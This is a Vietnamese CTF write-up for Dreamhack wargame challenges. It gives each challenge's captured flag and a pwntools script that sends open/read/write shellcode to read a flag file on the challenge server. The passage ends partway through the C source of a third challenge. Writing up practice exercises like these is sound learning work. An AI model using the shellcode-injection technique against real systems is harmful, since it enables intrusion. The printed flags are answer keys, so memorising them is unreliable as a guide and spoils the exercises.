 ```yaml
---
title: Dreamhack
published: 2024-07-25
category: "CTF"
tags: [PWN, CTF]
image: https://i.pinimg.com/736x/bf/27/3b/bf273b526094e6a1f4624fe485874dcb.jpg
---
```


# [Welcome](https://dreamhack.io/wargame/challenges/27)
- Kết nối đến server và có flag
>  ***DH{5cc72596cba7104569abb37f71b8ccf3}***

# [shell_basic](https://dreamhack.io/wargame/challenges/410)
- Để tạo shell đọc tệp `/home/shell_basic/flag_name_is_loooooong` thì ta dùng các lệnh `open, read, write` nhưng tên tệp dài 40 byte nên ta chia tên thành 5 phần đưa lần lượt vào stack theo chiều ngược lại và gán thanh ghi tham số cho `rsp`
- `shellcraft` sẽ cung cấp các hàm shellcode có sẵn và chỉ việc đưa tham số thích hợp vào 
### Script
```python=
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
p = remote('host3.dreamhack.games', 22611)

#p = process('./shell_basic')

path = "/home/shell_basic/flag_name_is_loooooong"

payload = shellcraft.open(path)
payload += shellcraft.read('rax', 'rsp', 100)
payload += shellcraft.write(1, 'rsp', 100)
input()
p.sendlineafter(b'shellcode: ', asm(payload))

p.interactive()
```
> ***DH{ca562d7cf1db6c55cb11c4ec350a3c0b}***

# [basic_exploitation_000](https://dreamhack.io/wargame/challenges/2)
```c 
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
```